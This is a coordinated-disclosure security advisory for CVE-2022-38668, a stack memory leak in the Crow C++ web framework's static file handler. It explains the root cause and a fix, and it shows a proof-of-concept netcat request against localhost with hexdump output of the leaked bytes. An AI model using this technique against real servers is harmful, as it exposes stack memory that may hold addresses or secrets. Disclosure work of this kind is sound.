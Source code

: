<h2><b><i>Summary:</i></b></h2>

Crow versions prior <a src="https://github.com/CrowCpp/Crow/releases/tag/v1.0%2B4">v1.0+4</a> (included) are vulnerable to an Information Disclosure
("Exposure of Sensitive Information to an Unauthorized Actor") issue, due to
improper handling of static resources.
Any request to a static resource, where the static resource is smaller than
16KB, will lead to disclosing up to 16KB of data from the stack.

Affected: Crow version 1.0+4 and older

<a src="https://github.com/CrowCpp/Crow">https://github.com/CrowCpp/Crow</a> - maintained version (fork)

<a src="https://github.com/ipkn/crow">https://github.com/ipkn/crow</a> - original version

CVE ID: [CVE-2022-38668](https://www.cve.org/CVERecord?id=CVE-2022-38668)

CVSS: 7.5 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N)

Discovered by:</br>
&ensp;Gynvael Coldwind</br>
&ensp;hebi

Method of discovery:</br>
  &ensp;Manual Analysis (reading the code)</br>

<blockquote>
"Crow is a C++ framework for creating HTTP or Websocket web services. It uses
routing similar to Python's Flask which makes it easy to use. It is also
extremely fast, beating multiple existing C++ frameworks as well as non C++
frameworks." </blockquote> (source: project's README.md)<br></br>

<b>IMPORTANT:</b> This vulnerability is reported under the 90-day policy 
(version 2021), i.e. this report will be shared publicly with the defensive
community on 16th November 2022 if a patch/fix is not available by that time, or
30 days after the fix becomes available. For details please see:
<a src="https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html">https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html</a>


<h2><b><i>Vulnerability details</i></b></h2>

The vulnerability is located in the Connection::do_write_static* method within 
the http_connection.h file.
*<a src="https://github.com/CrowCpp/Crow/blob/master/include/crow/http_connection.h#L393">https://github.com/CrowCpp/Crow/blob/master/include/crow/http_connection.h#L393</a>

This function creates a local buffer with a fixed size of 16384 bytes. Then the
buffer is passed to is.read() method (where "is" denotes an opened local file
pointed to by the static resource mapping) to acquire the content of the given
static resource (file). This call made within a while loop's condition, which
checks if any data was read (if not, the loop will exit).

However, the number of bytes that were read is not being tracked in any form.
Furthermore, the whole buffer is then passed to <code>asio::buffer</code> without specified
size**.

<b>**In this case it means that the whole array size will be used as data size, as
per the following constructor description:</b>

<a src="https://www.boost.org/doc/libs/1_80_0/doc/html/boost_asio/reference/buffer/overload7.html">https://www.boost.org/doc/libs/1_80_0/doc/html/boost_asio/reference/buffer/overload7.html</a>

This in turn leads to the whole local buffer being sent to the client requesting
the resource, including the potentially uninitialized part. This is especially
true for files smaller than 16KB.

<b>Conditions for triggering this behavior are:</b>

<ol>
  <li>Static path needs to be defined.</li>
  <li>At least 1 static file needs to exist</li>
  <li>The file needs to be smaller than 16KB.</li>
</ol>

<h2><b><i>Exploit</i></b></h2>

```
$ cat poc.txt | nc -v 127.0.0.1 18080 | hexdump -C
localhost [127.0.0.1] 18080 (?) open
00000000  48 54 54 50 2f 31 2e 31  20 32 30 30 20 4f 4b 0d  |HTTP/1.1 200 OK.|
00000010  0a 43 6f 6e 74 65 6e 74  2d 54 79 70 65 3a 20 74  |.Content-Type: t|
00000020  65 78 74 2f 70 6c 61 69  6e 0d 0a 43 6f 6e 74 65  |ext/plain..Conte|
00000030  6e 74 2d 4c 65 6e 67 74  68 3a 20 35 0d 0a 53 65  |nt-Length: 5..Se|
00000040  72 76 65 72 3a 20 43 72  6f 77 2f 6d 61 73 74 65  |rver: Crow/maste|
00000050  72 0d 0a 44 61 74 65 3a  20 54 75 65 2c 20 31 36  |r..Date: Tue, 16|
00000060  20 41 75 67 20 32 30 32  32 20 32 32 3a 34 39 3a  | Aug 2022 22:49:|
00000070  32 32 20 47 4d 54 0d 0a  43 6f 6e 6e 65 63 74 69  |22 GMT..Connecti|
00000080  6f 6e 3a 20 4b 65 65 70  2d 41 6c 69 76 65 0d 0a  |on: Keep-Alive..|
00000090  0d 0a 54 65 73 74 0a 00  00 00 00 00 00 00 00 00  |..Test..........|
000000a0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00002a90  00 00 00 00 00 00 00 00  00 00 28 14 00 ac d8 7f  |..........(.....|
00002aa0  00 00 20 14 00 ac d8 7f  00 00 48 f8 8c b4 d8 7f  |.. .......H.....|
00002ab0  00 00 50 f8 8c b4 d8 7f  00 00 49 8a 42 00 00 00  |..P.......I.B...|
00002ac0  00 00 28 14 00 ac d8 7f  00 00 20 14 00 ac d8 7f  |..(....... .....|
00002ad0  00 00 03 00 00 00 00 00  00 00 11 00 00 00 00 00  |................|
00002ae0  00 00 28 14 00 ac d8 7f  00 00 20 14 00 ac d8 7f  |..(....... .....|
00002af0  00 00 c0 f8 8c b4 d8 7f  00 00 cc 89 42 00 00 00  |............B...|
00002b00  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00002b10  00 00 5b 00 00 00 6e 00  00 00 c0 1c 00 ac d8 7f  |..[...n.........|
00002b20  00 00 b0 1c 00 ac d8 7f  00 00 01 00 00 00 00 00  |................|
00002b30  00 00 20 00 00 00 00 00  00 00 08 00 00 00 00 00  |.. .............|
00002b40  00 00 28 14 00 ac d8 7f  00 00 20 14 00 ac d8 7f  |..(....... .....|
00002b50  00 00 b0 1c 00 ac d8 7f  00 00 40 f9 8c b4 d8 7f  |..........@.....|
00002b60  00 00 f0 f8 8c b4 d8 7f  00 00 89 48 49 00 00 00  |...........HI...|
00002b70  00 00 28 3b 8d b4 d8 7f  00 00 30 14 00 ac d8 7f  |..(;......0.....|
00002b80  00 00 40 f9 8c b4 d8 7f  00 00 48 f9 8c b4 d8 7f  |..@.......H.....|
00002b90  00 00 50 f9 8c b4 d8 7f  00 00 99 47 49 00 00 00  |..P........GI...|
00002ba0  00 00 01 00 00 00 00 00  00 00 c8 04 8d b4 d8 7f  |................|
00002bb0  00 00 30 f9 8c b4 d8 7f  00 00 b0 1c 00 ac d8 7f  |..0.............|
00002bc0  00 00 01 00 00 00 00 00  00 00 c8 04 8d b4 d8 7f  |................|
00002bd0  00 00 d0 1c 00 ac d8 7f  00 00 b0 1c 00 ac d8 7f  |................|
00002be0  00 00 30 14 00 ac d8 7f  00 00 30 14 00 ac d8 7f  |..0.......0.....|
00002bf0  00 00 90 f9 8c b4 d8 7f  00 00 00 53 2a 66 e1 24  |...........S*f.$|
00002c00  09 b2 30 14 00 ac d8 7f  00 00 60 ff ff ff ff ff  |..0.......`.....|
...
```

<h2><b><i>Proposed fix:</i></b></h2>

Passing the actual size of bytes read to <code>asio::buffer</code>'s constructor.


<h3><b><i>Timeline</i></b></h3>
<ul>
  <li>2022-08-14: Vulnerability discovered.</li>
  <li>2022-08-17: Vulnerability reported.</li>
  <li>2022-08-21: Public fix was proposed.</li>
  <li>2022-08-22: Public fix was merged in.</li>
  <li>2022-08-22: CVE requested and assigned.</li>
  <li>2022-09-23: Details were published.</li>
</ul>

<h3><b><i>Links</i></b></h3>
<b>Gynvael's blog post:</b></br>

&ensp;<a src="https://gynvael.coldwind.pl/?lang=en&id=752">https://gynvael.coldwind.pl/?lang=en&id=752</a>
